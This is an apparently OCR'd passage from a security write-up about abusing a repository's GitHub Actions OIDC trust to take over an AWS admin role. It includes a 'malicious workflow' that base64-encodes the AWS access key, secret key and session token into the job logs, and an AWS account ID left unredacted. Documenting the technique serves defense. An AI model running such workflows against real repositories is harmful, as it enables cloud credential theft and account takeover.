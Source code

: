 ```yml

jobs:
deploy:
runs-on: ubuntu-latest
steps:
- name: Checkout Code
uses: actions/checkout@v3

- name: Configure AWS Credentials
uses: aws-actions/configure-aws-credentials@v2
with:
aws-region: us-west-1
role-to-assume: arn: aws: iam: : [REDIGIDO] : role/github_adm
role-session-name: AdminSession

- name: Deploy Infrastructure with Terraform
run: |
    cd terraform
    terraform init
    terraform apply -auto-approve

- This workflow, named "Infrastructure Deployment," is triggered whenever there is a push on the repository's main branch.
It uses the OIDC integration to assume the github_adm role on AWS and perform deployment operations using Terraform. -
```

This workflow, named "Infrastructure Deployment," is triggered whenever there is a push on the repository's main branch. It uses the OIDC integration to assume the github_adm role on AWS and perform deployment operations using Terraform.

**Step 3:** Execution of the malicious workflow
Based on the permissions of our compromised user, we created a malicious workflow in the same repository. This workflow was configured to capture temporary credentials from the role associated with the repository.

In the code below, we see the malicious workflow created and the result of its execution:
```yml
name: "AWS Credentials Extraction"
on:
workflow_dispatch:

permissions:
id-token: write
contents: read

jobs:
extract:
runs-on: ubuntu-latest
steps:
- name: Configure AWS Credentials
uses: aws-actions/configure-aws-credentials@v2
with:
aws-region: eu-west-1
role-to-assume: arn: aws: iam: : 058264466190 : role/github_adm
role-session-name: AdminSession

- name: Extract AWS Credentials
run: |
    echo "Extracting AWS Credentials ... "
    echo "AWS_ACCESS_KEY_ID=$AWS_ACCESS_KEY_ID" | base64
    echo "AWS_SECRET_ACCESS_KEY=$AWS_SECRET_ACCESS_KEY" | base64
    echo "AWS_SESSION_TOKEN=$AWS_SESSION_TOKEN" | base64
```